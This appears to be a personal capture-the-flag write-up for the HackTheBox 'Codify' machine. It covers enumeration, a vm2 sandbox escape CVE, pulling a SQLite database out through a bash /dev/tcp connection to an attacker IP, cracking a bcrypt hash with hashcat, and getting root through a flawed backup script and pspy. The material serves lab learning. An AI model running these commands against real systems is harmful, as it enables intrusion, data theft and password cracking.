 # Codify Box

## Enumeration
So I ran `sudo nmap -Pn -sC -sV 10.10.11.239` to start out.

This returned that ports 22, 80, and 3000 as well as some other filtered ports.

When I connect to 10.10.11.239:80 it resolves to http://codify.htb/. So we can add that to etc hosts.

Like 10.10.11.239 codify.htb. Easy code for this:
`echo '10.10.11.239 codify.htb' | sudo tee -a /etc/hosts`

We see this page allows us to rest Node.js code.

## Foothold

This tool uses vm2 for sandboxing. I know the information on this box says we need to do CVE research. Seems a good place to start.

Quick google search finds (this)[https://nvd.nist.gov/vuln/detail/CVE-2023-37466].

The CVE mentions that versions up to 3.9.19 are vulnerable to remote code execution and the link they provide on the about us page is 3.9.16. So my guess this is where I start.

Little research finds (this)[https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac] working code example.

Now I have remote code execution. So now I just need to find the user.txt and root.txt

## Finding the flags

To get the flags for this one I ended up having to use the walk through. I knew to check the /etc/passwd file but I wasn't sure what I was looking for. The trick here was to see the joshua user.

Then we had to go through and find the /var/www/contacts directory. In it there was a tickets.db file. This is a SQLite database.

Then we have to transfer this db to our local machine so we can see its contents.

We can do something like `nc -lnvp 2222 > tickets.db` then we can do
`cat tickets.db > /dev/tcp/10.10.14.99/2222`

The /dev/tcp/IP/PORT portion is a trick in Bash that tells the PC to create a connection to that IP. This does not work in zsh. So I had to do this on this first.

`script /dev/null -c bash`

This started a bash terminal instead.

Once we got it on the local machine we can run sqlite3 tickets.db

Use the .tables command to list the tables.

Then we see a users table. So we can do:
`SELECT * FROM users;`

This returns a password that has been hashed.

This was where I ran into a wall because I had not used hashcat before. But we had to do was run:

`hashcat --force -m 3200 hash.txt /usr/share/wordlists/rockyou.txt`

We know that -m is the one to use because the first 4 letters of that hash were $2a$ which indicates this is a bcrypt hash.

And we can look up hashcat for a list of which hashes have which flags.

This returns the users password.

So now we can ssh onto the box with joshua and the password.

And this gets us the user flag. But then we need to get the root.

If we run `sudo -l` we can see what commands joshua has access to.

There is a file called /opt/scripts/mysql-backup.sh that he can run, when it runs it asks for a password for a sql database.

If we look at the bash code we see that there are two major flaws with the script. The first thing is that it does a comparison like [[ $DB_PASS == $USER_PASS ]]. This does a regex pattern matching to test. So if we pass in * as our password it works as being correct. 

Next we see that the password being used to access the actual database is not the user provided password, but the real password. So if we pass in the password as * the script will work as expected.

And if we use pspy, we can get the actual password being passed in.

To do this we need to get pspy in a directory. Then start hosting a server in that same directory like:
`wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s`
`python3 -m http.server 8082`

Then we can put pspy on the ssh box by running:
`wget http://10.10.14.99:8082/pspy64s`

Then we need to open a new ssh into the box again. Set pspy as an executable. And run it.
`chmod +x pspy64s`
`./pspy64s`

Then on our original ssh session we can just run the command again.

If we then look at the pspy output we see the password for the root user.

Then we can just run:
`su root` and put in that password.
Then run:
`cd /root/` and we see the flag.

